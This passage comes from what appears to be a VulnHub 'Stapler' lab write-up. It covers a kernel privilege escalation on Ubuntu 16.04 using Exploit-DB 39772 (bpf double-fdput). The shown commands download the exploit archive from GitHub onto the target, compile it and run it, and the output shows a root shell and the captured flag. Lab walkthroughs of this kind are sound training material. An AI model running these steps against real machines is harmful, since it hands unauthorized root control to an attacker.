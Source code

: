 #### Method #3: kernel exploit

![ubuntu 16-04](https://amirr0r.github.io/assets/img/vulnhub/linux/stapler/ubuntu-16-04.png)

The target machine is running **Ubuntu 16.04** with a Linux kernel version `4.4.0-21-generic`.

Since it's an old box, we can easily bet on kernel exploits. Indeed:
![searchsploit](https://amirr0r.github.io/assets/img/vulnhub/linux/stapler/searchsploit.png)

```bash
$ searchsploit -m linux/local/39772.txt                                            
  Exploit: Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation
      URL: https://www.exploit-db.com/exploits/39772                                                                 
     Path: /usr/share/exploitdb/exploits/linux/local/39772.txt                                                       
File Type: C source, ASCII text, with CRLF line terminators
                                                          
Copied to: /mnt/hgfs/shared/Stapler/39772.txt 
```

If we take a look at `39772.txt`, we see that there is a way to exploit the kernel which can lead us to code execution by root.

Steps to reproduce on the target machine:

```bash
$ cd /tmp/
$ wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
$ unzip 39772.zip
$ cd 39772/
$ tar xvf exploit.tar
$ cd ebpf_mapfd_doubleput_exploit
$ chmod +x compile.sh
$ ./compile.sh 
$ ./doubleput
./doubleput
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
root@red:/tmp/39772/ebpf_mapfd_doubleput_exploit# 
```

___

- Final flag:

```bash
root@red:~# cat flag.txt
cat flag.txt
~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)  
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b
```
